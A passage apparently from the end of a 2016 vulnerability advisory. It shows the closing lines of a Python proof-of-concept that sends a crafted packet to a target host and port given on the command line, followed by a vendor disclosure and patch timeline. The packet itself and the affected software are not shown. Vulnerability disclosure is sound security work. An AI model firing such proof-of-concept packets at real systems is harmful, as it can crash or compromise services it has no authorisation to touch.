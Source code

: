 s3 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s3.connect((sys.argv[1],int(sys.argv[2])))
s3.sendall(get_packet)
s3.recv(1024)
s3.close()
</code>
</pre>


<h3 id="timeline" nodeIndex="81">Timeline</h3>
<p nodeIndex="82">2016-10—10 - Vendor Disclosure<br nodeIndex="149">
2016-10-12 - Patch Fixed<br nodeIndex="150">
2016-10-31 - Public Release</p>
</div>